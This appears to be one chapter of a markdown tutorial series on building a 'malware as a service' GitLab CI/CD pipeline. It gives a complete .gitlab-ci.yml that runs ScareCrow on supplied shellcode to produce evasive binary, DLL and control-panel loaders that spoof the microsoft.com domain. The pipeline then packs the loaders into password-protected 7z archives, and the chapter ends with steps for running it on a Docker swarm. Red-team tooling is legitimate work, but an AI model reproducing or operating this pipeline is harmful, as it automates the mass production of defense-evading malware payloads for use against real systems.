

## Your First CI/CD Pipeline

We are now ready to write our first CI/CD pipeline. CI/CD pipelines in Gitlab use a YAML configuration file which is saved in the root directory of a repository and named "**.gitlab-ci.yml**".

The documentation for the grammar used in this YAML file is located here at https://docs.gitlab.com/ee/ci/.

For this first effort, I have created a three stage pipeline that will generate some ScareCrow malware payload artifacts, ZIP them up and make available after the pipeline run completes.

Gitlab will automatically create a standard ZIP file for any artifacts that exist at the end of a pipeline run, however I like to use a 7Zip file within the outer ZIP file so that I can apply a passphrase.

### Pipeline Stages

In a typical CI/CD pipeline we would see stages such as *build*, *test*, and *deploy* for example. For our purposes we have a similar arrangement however we are not really doing any testing in this initial effort.

I am going to name our pipeline stages:
* PreProcess
* BakeMalware
* PostProcess

It is useful to know that Gitlab CI/CD will predefine a number of environment variables which we can leverage within our pipeline YAML file. These environment variables are documented here at https://docs.gitlab.com/ee/ci/variables/predefined_variables.html.

For the purposes of our pipeline, we make use of the **$CI_COMMIT_SHORT_SHA** variable to create a unique directory for each run of the pipeline.

**PreProcess** will be used to prepare the ground.  It might be some directory structure we need to create, or anything else we think we need before creating the malware payload itself.  In our case, we are creating a directory and creating a symbolic link to the **garble** binary so that ScareCrow will not have to download it.

**BakeMalware** will be used to actually execute ScareCrow a number of times in order to create the required binary artifacts we desire.

**PostProcess** will be used for 7ZIP archive creation purposes. The 7ZIP archive will be created in a directory which is then further zipped and made available as an artifact to download when the pipeline completes.

### The Pipeline Trigger

It is typically for a CI/CD pipeline to be triggered whenever a "**git commit**" occurs, however we can exert a little more control over this using a *workflow* statement in our YAML file.

For the purposes of generating malware loaders, we will need to supply some shellcode, thus we create a "**shellcode**" directory and configure the workflow such that any file changes in the "**shellcode**" directory will trigger a pipeline run.

### Full Listing of Gitlab YAML file

Below is a complete listing of the current "**.gitlab-ci.yml**" file. The major sections are:

* stages: listing all of the pipeline stages to be executed in sequence
* workflow: defining the pipeline trigger condition(s)
* PreProcess: execute any/all actions in the PreProcess stage.
* ScareCrow: configured as BakingMalware stage
* PostProcess: zip up files, cleanup and publish artifacts

```
stages:
    - PreProcess
    - BakeMalware
    - PostProcess

workflow:
    rules:
        - changes:
            - shellcode/*

PreProcess:
    stage: PreProcess
    tags:
        - maas
    script:
        - |
            mkdir -p /payloads/${CI_COMMIT_SHORT_SHA}/.lib
            ln -s /usr/local/bin/garble /payloads/${CI_COMMIT_SHORT_SHA}/.lib/garble

ScareCrow:
    stage: BakeMalware
    tags:
        - maas
    script:
        - |
            cd /payloads/${CI_COMMIT_SHORT_SHA}
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader binary -domain microsoft.com
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader dll -domain microsoft.com
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader control -domain microsoft.
com

PostProcess:
    stage: PostProcess
    tags:
        - maas
    script:
        - |
            DEST=${CI_PROJECT_DIR}/ScareCrowPayloads
            rm -rf /payloads/${CI_COMMIT_SHORT_SHA}/.lib
            cd /payloads
            7z a "${DEST}/${CI_COMMIT_SHORT_SHA}.7z" "${CI_COMMIT_SHORT_SHA}/*" -p"infected"
            rm -rf /payloads/${CI_COMMIT_SHORT_SHA}
    artifacts:
        name: ScareCrowPayloads
        paths:
            - ScareCrowPayloads/
        expire_in: 1 day
```

### Testing your Pipeline

#### Status of Backend Docker Infrastructure

Before testing the new pipeline, you should double check and ensure that the docker service stack is up and running. Login to your primary docker server, and issue some status checking commands to ensure that everything is running as expected.

* ```docker node ls``` is used to check the status of your docker swarm deployment
* ```docker service ls``` gives you information about your deployed service stack
* ```docker service ps``` lists running containers associated with your specific service
* ```docker ps``` lists all of the running containers on the host you are logged into

Shown below is some sample output of a few of these commands:

```
$ docker node ls
ID                            HOSTNAME   STATUS    AVAILABILITY   MANAGER STATUS   ENGINE VERSION
tzl5tqd5saou5ifxvj8opezmx *   docker01   Ready     Active         Leader           24.0.7
z22hcsipj4t2wjbohilptj9qn     docker02   Ready     Active                          24.0.7

$ docker service ls
ID             NAME        MODE         REPLICAS               IMAGE         PORTS
0bl6ihvy2yc7   maas_maas   replicated   4/4 (max 2 per node)   maas:latest

$ docker service ps maas_maas
ID             NAME          IMAGE         NODE       DESIRED STATE   CURRENT STATE               ERROR     PORTS
zsuswajwrmr7   maas_maas.1   maas:latest   docker01   Running         Running about an hour ago
jz3ms7fvcipi   maas_maas.2   maas:latest   docker02   Running         Running about an hour ago
0bvdxt9arhg8   maas_maas.3   maas:latest   docker01   Running         Running about an hour ago
ofjacom0xky8   maas_maas.4   maas:latest   docker02   Running         Running about an hour ago

```

#### Executing the Pipeline from Gitlab

1. In the repository menus, select Build -> Pipelines.



2. Next, click on the **Run Pipeline** button at the top right corner of the web page. On the following page, you can select a code branch which for this excercise will already be "**main**". Now, click the **Run Pipeline** button in the lower left of the page.

You will see a web page that shows the status of the pipeline running.


3. When the pipeline completes all of the stages, a green checkmark will appear under each stage. At any time, you can click on the stage *job* itself to see the output of any of the individual job actions in your pipeline script.


4. At completion time, the status should change to *passed* and all green checkmarks will be displayed.


5. The artifacts generated by your 7ZIP script actions will be available in a drop down menu which you can then download.


[Goto Next Document -->](./06-going-parallel.md)
